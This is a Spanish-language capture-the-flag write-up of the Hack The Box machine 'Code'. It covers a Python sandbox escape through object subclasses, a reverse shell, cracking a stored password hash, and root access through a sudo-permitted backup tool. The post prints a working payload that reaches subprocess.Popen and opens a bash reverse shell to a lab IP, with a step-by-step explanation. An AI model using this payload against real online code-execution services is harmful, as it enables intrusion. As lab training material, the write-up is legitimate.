 ![alt text](image/code0.png)

| MAQUINA |  OS   | DIFICULTAD |  PLATAFORMA  |    IP    |
| :-----: | :---: | :--------: | :----------: | :------: |
|  CODE   | LINUX |   FACIL    | HACK THE BOX | CODE.HTB |
## *Reconocimiento*

Comenzamos con un escaneo simple a la IP generada en Hack the box para esta maquina y se encuentra 2 puertos abiertos.

![alt text](image/code1.png)
En la búsqueda de directorios solo encontramos los que trae la pagina principal, no había mucho que buscar y tampoco se hallaron subdominios.

## *Análisis de vulnerabilidades*

La pagina trae un entorno de desarrollo con el lenguaje python, entre muchos códigos que podamos hacer hay una limitación a la hora de importar módulos, la pagina no nos permite trabajar con palabras clave
![alt text](image/code2.png)
![alt text](image/code3.png)
Con ayuda de un foro encontré una solución para bypassear una reverse shell en python. Como no comprendí muy bien este código hice que chatgpt me aclarara.

```python
().__class__.__base__.__subclasses__()[317](
["/bin/bash","-c","bash -i >& /dev/tcp/10.10.15.132/1234 0>&1"])
```
## 🔍 **Paso a paso de la ejecución**

1️⃣ `()` → **Crea una instancia de un objeto vacío**

- En Python, `()` representa un **objeto sin definir**.
    
- Luego, se accede a sus atributos internos.
    

2️⃣ `().__class__` → **Obtiene la clase del objeto**

- `().__class__` devuelve `<class 'tuple'>`, ya que `()` es una tupla vacía.
    

3️⃣ `().__class__.__base__` → **Obtiene la clase base de la tupla**

- La clase base de `tuple` en Python es `object`, por lo que `().__class__.__base__` devuelve `<class 'object'>`.
    

4️⃣ `().__class__.__base__.__subclasses__()` → **Lista todas las subclases de `object`**

- En Python, `object` es la clase base de todo.
    
- `.subclasses__()` devuelve una lista de **todas las clases derivadas** de `object` en memoria.
    

5️⃣ `()[317]` → **Accede a una clase específica**

- `__subclasses__()` devuelve una lista de cientos de clases.
    
- `317` es el índice de la clase que queremos (que en muchas versiones de Python es `subprocess.Popen` o similar).
    

6️⃣ `()[317]([...])` → **Ejecuta un comando con `subprocess.Popen`**

- `[317]` selecciona la clase `subprocess.Popen`.
    
- Se ejecuta con `(["/bin/bash","-c","bash -i >& /dev/tcp/10.10.15.132/1234 0>&1"])`.

## *Explotación*
![alt text](image/code4.png)
Antes de correr el script debo estar en escucha para poder tener la reverse shell. Ejecuto el script y tengo acceso a la ruta de producción.
![alt text](image/code5.png)
Encuentro las palabras claves que no podían ser leídas por el IDE.
![alt text](image/code6.png)
Saliendo de la ruta app encontramos la primera flag de usuario.

![alt text](image/code7.png)

Seguía indagando y encontré una base de datos con sus usuarios y contraseñas hasheadas

![alt text](image/code8.png)

![alt text](image/code9.png)

Ya con la credencial de martin accedo al ssh y nos encontramos con un archivo json y otro comprimido. Quiero saber que trae el archivo json y encuentro lo siguiente.

![alt text](image/code10.png)
![alt text](image/code11.png)

## *Post-Explotación*

Con la ayuda del operador EOF puedo editar un archivo usando **cat**, lo que haria este archivo es traer el directorio en donde se encuentre /root/root.txt y comprimirlo. Para que este puede ejecutarse acudimos a sudo y el comando el cual martin puede trabajar, llamamos al mismo tiempo al archivo y comienza a comprimirse.

![alt text](image/code12.png)

Revisamos y tenemos un nuevo archivo comprimido con extension .tar, descomprimimos y tenemos la carpeta root con su flag.

![alt text](image/code13.png)
